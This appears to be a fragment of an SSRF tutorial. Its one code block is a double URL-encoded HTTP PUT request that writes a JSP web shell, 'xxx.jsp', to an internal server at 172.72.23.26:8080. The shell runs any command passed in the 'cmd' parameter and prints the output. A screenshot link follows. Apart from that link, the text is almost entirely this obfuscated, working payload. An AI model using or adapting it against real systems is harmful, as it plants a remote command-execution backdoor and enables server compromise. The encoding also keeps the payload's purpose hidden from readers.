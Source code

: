 ```
%25%35%30%25%35%35%25%35%34%25%32%30%25%32%66%25%37%38%25%37%38%25%37%38%25%32%65%25%36%61%25%37%33%25%37%30%25%32%66%25%32%30%25%34%38%25%35%34%25%35%34%25%35%30%25%32%66%25%33%31%25%32%65%25%33%31%25%30%64%25%30%61%25%34%38%25%36%66%25%37%33%25%37%34%25%33%61%25%32%30%25%33%31%25%33%37%25%33%32%25%32%65%25%33%37%25%33%32%25%32%65%25%33%32%25%33%33%25%32%65%25%33%32%25%33%36%25%33%61%25%33%38%25%33%30%25%33%38%25%33%30%25%30%64%25%30%61%25%34%33%25%36%66%25%36%65%25%37%34%25%36%35%25%36%65%25%37%34%25%32%64%25%34%63%25%36%35%25%36%65%25%36%37%25%37%34%25%36%38%25%33%61%25%32%30%25%33%34%25%33%36%25%33%30%25%30%64%25%30%61%25%30%64%25%30%61%25%33%63%25%32%35%25%30%64%25%30%61%25%32%30%25%32%30%25%32%30%25%32%30%25%35%33%25%37%34%25%37%32%25%36%39%25%36%65%25%36%37%25%32%30%25%36%33%25%36%66%25%36%64%25%36%64%25%36%31%25%36%65%25%36%34%25%32%30%25%33%64%25%32%30%25%37%32%25%36%35%25%37%31%25%37%35%25%36%35%25%37%33%25%37%34%25%32%65%25%36%37%25%36%35%25%37%34%25%35%30%25%36%31%25%37%32%25%36%31%25%36%64%25%36%35%25%37%34%25%36%35%25%37%32%25%32%38%25%32%32%25%36%33%25%36%64%25%36%34%25%32%32%25%32%39%25%33%62%25%30%64%25%30%61%25%32%30%25%32%30%25%32%30%25%32%30%25%36%39%25%36%36%25%32%38%25%36%33%25%36%66%25%36%64%25%36%64%25%36%31%25%36%65%25%36%34%25%32%30%25%32%31%25%33%64%25%32%30%25%36%65%25%37%35%25%36%63%25%36%63%25%32%39%25%30%64%25%30%61%25%32%30%25%32%30%25%32%30%25%32%30%25%37%62%25%30%64%25%30%61%25%32%30%25%32%30%25%32%30%25%32%30%25%32%30%25%32%30%25%32%30%25%32%30%25%36%61%25%36%31%25%37%36%25%36%31%25%32%65%25%36%39%25%36%66%25%32%65%25%34%39%25%36%65%25%37%30%25%37%35%25%37%34%25%35%33%25%37%34%25%37%32%25%36%35%25%36%31%25%36%64%25%32%30%25%36%39%25%36%65%25%33%64%25%35%32%25%37%35%25%36%65%25%37%34%25%36%39%25%36%64%25%36%35%25%32%65%25%36%37%25%36%35%25%37%34%25%35%32%25%37%35%25%36%65%25%37%34%25%36%39%25%36%64%25%36%35%25%32%38%25%32%39%25%32%65%25%36%35%25%37%38%25%36%35%25%36%33%25%32%38%25%36%33%25%36%66%25%36%64%25%36%64%25%36%31%25%36%65%25%36%34%25%32%39%25%32%65%25%36%37%25%36%35%25%37%34%25%34%39%25%36%65%25%37%30%25%37%35%25%37%34%25%35%33%25%37%34%25%37%32%25%36%35%25%36%31%25%36%64%25%32%38%25%32%39%25%33%62%25%30%64%25%30%61%25%32%30%25%32%30%25%32%30%25%32%30%25%32%30%25%32%30%25%32%30%25%32%30%25%36%39%25%36%65%25%37%34%25%32%30%25%36%31%25%32%30%25%33%64%25%32%30%25%32%64%25%33%31%25%33%62%25%30%64%25%30%61%25%32%30%25%32%30%25%32%30%25%32%30%25%32%30%25%32%30%25%32%30%25%32%30%25%36%32%25%37%39%25%37%34%25%36%35%25%35%62%25%35%64%25%32%30%25%36%32%25%32%30%25%33%64%25%32%30%25%36%65%25%36%35%25%37%37%25%32%30%25%36%32%25%37%39%25%37%34%25%36%35%25%35%62%25%33%32%25%33%30%25%33%34%25%33%38%25%35%64%25%33%62%25%30%64%25%30%61%25%32%30%25%32%30%25%32%30%25%32%30%25%32%30%25%32%30%25%32%30%25%32%30%25%36%66%25%37%35%25%37%34%25%32%65%25%37%30%25%37%32%25%36%39%25%36%65%25%37%34%25%32%38%25%32%32%25%33%63%25%37%30%25%37%32%25%36%35%25%33%65%25%32%32%25%32%39%25%33%62%25%30%64%25%30%61%25%32%30%25%32%30%25%32%30%25%32%30%25%32%30%25%32%30%25%32%30%25%32%30%25%37%37%25%36%38%25%36%39%25%36%63%25%36%35%25%32%38%25%32%38%25%36%31%25%33%64%25%36%39%25%36%65%25%32%65%25%37%32%25%36%35%25%36%31%25%36%34%25%32%38%25%36%32%25%32%39%25%32%39%25%32%31%25%33%64%25%32%64%25%33%31%25%32%39%25%30%64%25%30%61%25%32%30%25%32%30%25%32%30%25%32%30%25%32%30%25%32%30%25%32%30%25%32%30%25%37%62%25%30%64%25%30%61%25%32%30%25%32%30%25%32%30%25%32%30%25%32%30%25%32%30%25%32%30%25%32%30%25%32%30%25%32%30%25%32%30%25%32%30%25%36%66%25%37%35%25%37%34%25%32%65%25%37%30%25%37%32%25%36%39%25%36%65%25%37%34%25%36%63%25%36%65%25%32%38%25%36%65%25%36%35%25%37%37%25%32%30%25%35%33%25%37%34%25%37%32%25%36%39%25%36%65%25%36%37%25%32%38%25%36%32%25%32%39%25%32%39%25%33%62%25%30%64%25%30%61%25%32%30%25%32%30%25%32%30%25%32%30%25%32%30%25%32%30%25%32%30%25%32%30%25%37%64%25%30%64%25%30%61%25%32%30%25%32%30%25%32%30%25%32%30%25%32%30%25%32%30%25%32%30%25%32%30%25%36%66%25%37%35%25%37%34%25%32%65%25%37%30%25%37%32%25%36%39%25%36%65%25%37%34%25%32%38%25%32%32%25%33%63%25%32%66%25%37%30%25%37%32%25%36%35%25%33%65%25%32%32%25%32%39%25%33%62%25%30%64%25%30%61%25%32%30%25%32%30%25%32%30%25%32%30%25%37%64%25%32%30%25%36%35%25%36%63%25%37%33%25%36%35%25%32%30%25%37%62%25%30%64%25%30%61%25%32%30%25%32%30%25%32%30%25%32%30%25%32%30%25%32%30%25%32%30%25%32%30%25%36%66%25%37%35%25%37%34%25%32%65%25%37%30%25%37%32%25%36%39%25%36%65%25%37%34%25%32%38%25%32%32%25%36%36%25%36%66%25%37%32%25%36%64%25%36%31%25%37%34%25%33%61%25%32%30%25%37%38%25%37%38%25%37%38%25%32%65%25%36%61%25%37%33%25%37%30%25%33%66%25%36%33%25%36%64%25%36%34%25%33%64%25%34%33%25%36%66%25%36%64%25%36%64%25%36%31%25%36%65%25%36%34%25%32%32%25%32%39%25%33%62%25%30%64%25%30%61%25%32%30%25%32%30%25%32%30%25%32%30%25%37%64%25%30%64%25%30%61%25%32%35%25%33%65
```

![image-20240905145423298](https://image.201068.xyz/assets/29.SSRF/image-20240905145423298.png)
